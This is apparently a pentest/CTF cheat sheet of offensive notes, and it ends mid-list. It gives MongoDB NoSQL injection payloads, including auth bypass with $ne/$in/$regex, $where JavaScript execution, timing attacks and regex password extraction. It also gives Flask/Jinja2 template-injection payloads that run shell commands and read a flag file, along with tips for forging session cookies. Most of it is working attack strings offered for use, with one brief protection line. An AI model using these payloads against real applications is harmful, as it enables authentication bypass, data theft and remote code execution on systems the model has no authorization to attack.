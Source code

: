#### #NOSql:
* arrays: 
    + `{"$gt": ""}, &input[$ne]=1`
* horizontal auth bruteforce:
    + `user[$in][]=admin&user[$in][]=user&pass=abc123 ; {user: {"$in": ["admin", "user"]}}`
    + `user[$regex]=a&pass=abc123`
* `db.run(user input)` is like classical sql injection
* JavaScript code can execute within the database engine inside:
    + $where
    + group
    + map-reduce
* protection:
    + getting rid of the qs module
* payloads:
    ```
    # mostly from https://github.com/cr0hn/nosqlinjection_wordlists/blob/master/mongodb_nosqli.txt
    (function(){var date = new Date(); do{curDate = new Date();}while(curDate-date<10000); return Math.max();})()
    '0; return true'
    '0; while(true){}'
    true, $where: '1 == 1'
    , $where: '1 == 1'
    $where: '1 == 1'
    ', $where: '1 == 1'
    1, $where: '1 == 1'
    { $ne: 1 }
    ', $or: [ {}, { 'a':'a
    ' } ], $comment:'successful MongoDB injection'
    db.injection.insert({success:1});
    db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
    || 1==1
    ' && this.password.match(/.*/)//+%00
    ' && this.passwordzz.match(/.*/)//+%00
    '%20%26%26%20this.password.match(/.*/)//+%00
    '%20%26%26%20this.passwordzz.match(/.*/)//+%00
    {$gt: ''}
    [$ne]=1
    ';sleep(5000);
    ';it=new%20Date();do{pt=new%20Date();}while(pt-it<5000);
    ```


#### #Python:
* url_parse in python problem with path params `(http://example.com?asd;xxx)`
* upload \__init__.py file + import
* app.secret_key in flask -> you know it, you can spoof session cookies
* flask uses his error pages only for specified addresses, including 127.0.0.1
* flask rce payloads
    ```
    {% raw %}
    
    {% for x in {}.__class__.__base__.__subclasses__() %}{% if hasattr(x,'_module') %}{{x._module.__builtins__['__import__']('os').system("ls")}}{% endif %}{% endfor %}

    {% set loadedClasses = " ".__class__.__mro__[2].__subclasses__() %}
    {% for loadedClass in loadedClasses %} {% if loadedClass.__name__ == "catch_warnings".strip() %}
        {% set builtinsReference = loadedClass()._module.__builtins__ %}
        {% set os = builtinsReference["__import__".strip()]("subprocess".strip()) %}
            {{ os.check_output("cat sha4/flag_bilaabluagbiluariglublaireugrpoop".strip(), shell=True) }}
        {% endif %}
    {% endfor %}
